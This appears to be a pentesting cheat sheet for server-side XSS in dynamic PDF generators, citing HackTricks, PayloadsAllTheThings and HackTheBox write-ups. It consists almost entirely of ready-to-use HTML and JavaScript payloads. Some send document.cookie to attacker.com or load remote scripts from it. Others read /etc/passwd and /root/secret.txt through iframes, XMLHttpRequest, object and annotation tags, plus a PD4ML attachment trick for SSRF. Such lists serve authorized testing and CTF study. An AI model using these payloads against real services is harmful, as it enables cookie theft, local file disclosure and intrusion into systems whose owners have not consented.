 # Server Side XSS

[HackTricks - Server Side XSS (Dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) *If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.*

Payloads:
```javascript
<!-- Basic discovery, Write somthing-->
<img src="x" onerror="document.write('test')" />
<script>document.write(JSON.stringify(window.location))</script>
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>

<!--Basic blind discovery, load a resource-->
<img src="http://attacker.com"/>
<img src=x onerror="location.href='http://attacker.com/?c='+ document.cookie">
<script>new Image().src="http://attacker.com/?c="+encodeURI(document.cookie);</script>
<link rel=attachment href="http://attacker.com">
```

[GitHub - SVG Payloads](https://github.com/allanlw/svg-cheatsheet)

[Hacktricks Server Side XSS (dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) and [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-htmlapplications) - with combination from [Ippsec.Rocks](https://ippsec.rocks) and [0xdf](https://0xdf.gitlab.io/2023/06/24/htb-stocker.html)
```html
<!-- <script></script> tags do not always work, use <img -->
<!-- Read /etc/passwd into a pdf! -->>
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>

<!-- Basic discovery, Write somthing-->
<img src="x" onerror="document.write('test')" />
<script>document.write(JSON.stringify(window.location))</script>
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>

<!--Basic blind discovery, load a resource-->
<img src="http://attacker.com"/>
<img src=x onerror="location.href='http://attacker.com/?c='+ document.cookie">
<script>new Image().src="http://attacker.com/?c="+encodeURI(document.cookie);</script>
<link rel=attachment href="http://attacker.com">

<!-- SVG payloads: https://github.com/allanlw/svg-cheatsheet -->

<!-- If the bot is accessing a file:// path, you will discover the internal path
if not, you will at least have wich path the bot is accessing -->
<img src="x" onerror="document.write(window.location)" />
<script> document.write(window.location) </script>

<!-- Load an external script -->
<script src="http://attacker.com/myscripts.js"></script>
<img src="xasdasdasd" onerror="document.write('<script src="https://attacker.com/test.js"></script>')"/>

<!-- Read Local Files -->
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open(\"GET\",\"file:///etc/passwd\");x.send();</script>

<iframe src='file:///etc/passwd' height='1000' width='1000'></iframe>
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<link rel=attachment href="file:///root/secret.txt">
<object data="file:///etc/passwd">
<portal src="file:///etc/passwd" id=portal>
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />

<!-- SSRF -->
<!-- HTML 2 PDF engines that allow to specify attachments for PDF like PD4ML -->
<!-- From https://0xdf.gitlab.io/2021/04/24/htb-bucket.html -->
<html><pd4ml:attachment src="/etc/passwd" description="attachment sample" icon="Paperclip"/></html>
```

## References

[Hacktricks Server Side XSS (dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) 
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-htmlapplications)
[Ippsec.Rocks](https://ippsec.rocks)
[0xdf](https://0xdf.gitlab.io/2023/06/24/htb-stocker.html) - HTB box spoiler warning